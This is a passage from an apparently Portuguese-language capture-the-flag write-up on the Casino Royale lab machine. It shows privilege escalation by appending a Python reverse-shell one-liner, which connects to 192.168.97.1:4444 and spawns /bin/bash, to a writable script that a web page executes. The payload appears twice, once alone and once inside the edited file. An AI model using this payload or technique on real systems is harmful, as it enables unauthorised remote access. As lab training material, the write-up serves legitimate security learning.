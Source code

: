 ![suid](img/suid.png)

Entrando nesse diretório vemos:
```
$ ls -lha
ls -lha
total 48K
drwxrwxr-x 2 root le       4.0K Feb 22 19:03 .
drwxr-xr-x 4 root root     4.0K Jan 17 18:17 ..
-rwxrw---- 1 le   www-data  424 Mar  6 21:00 casino-data-collection.py
-rw------- 1 le   le         40 Feb 22 19:02 closer2root.txt
-rw-r--r-- 1 root root       79 Feb 20 14:54 collect.php
-rwxr-xr-x 1 root root      174 Feb 21 21:48 index.html
-rwsr-sr-x 1 root root     8.5K Feb 20 14:26 mi6_detect_test
-rwxrwxr-x 1 le   le         64 Mar  6 21:09 php-web-start.sh
-rwxr-x--- 1 le   le        412 Mar  6 21:11 run.sh
-rwxrwxr-x 1 le   le         71 Feb 20 15:21 user-data.log
```
Esses arquivos fazem parte do serviço que está sendo executado na porta 8081, basicamente a página collect.php executa o arquivo casino-data-collection.py, para ver esse arquivo, precisamos ser www-data ou le, então temos que voltar um passo para prosseguir
```
exit
cat casino-data-collection.py
```
O que esse arquivo faz é ler o conteúdo do arquivo user-data.log e mostrar na tela, por isso ele mostrava aquela mensagem, ela é o que está em user-data.log, mas o user www-data tem permissão de escrita no arquivo casino-data-collection.py, então podemos editar seu conteúdo para que quando o collect.php for executado, ganhemos uma shell com o user 'le'. Em minha máquina local, eu copiei o conteúdo de casino-data-collection.py e adicionei no fim do arquivo o conteúdo a seguir:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.97.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
O conteúdo final do arquivo ficou assim
```python
#!/usr/bin/python
# Collect logs and user data to sell for marketing research

file = open("/opt/casino-royale//user-data.log","r")
print file.read()

#ftpl = open("/var/log/vsftpd.log","r")
#print ftpl.read()
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.97.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
